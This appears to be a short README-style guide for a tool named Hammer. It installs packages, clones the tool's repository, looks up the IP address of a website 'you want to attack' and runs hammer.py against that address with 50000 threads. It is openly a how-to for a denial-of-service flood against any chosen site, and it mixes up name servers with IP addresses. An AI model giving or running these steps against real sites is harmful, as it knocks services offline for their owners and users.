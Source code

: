 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s 127.0.0.1 -t 50000<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 50000<br>
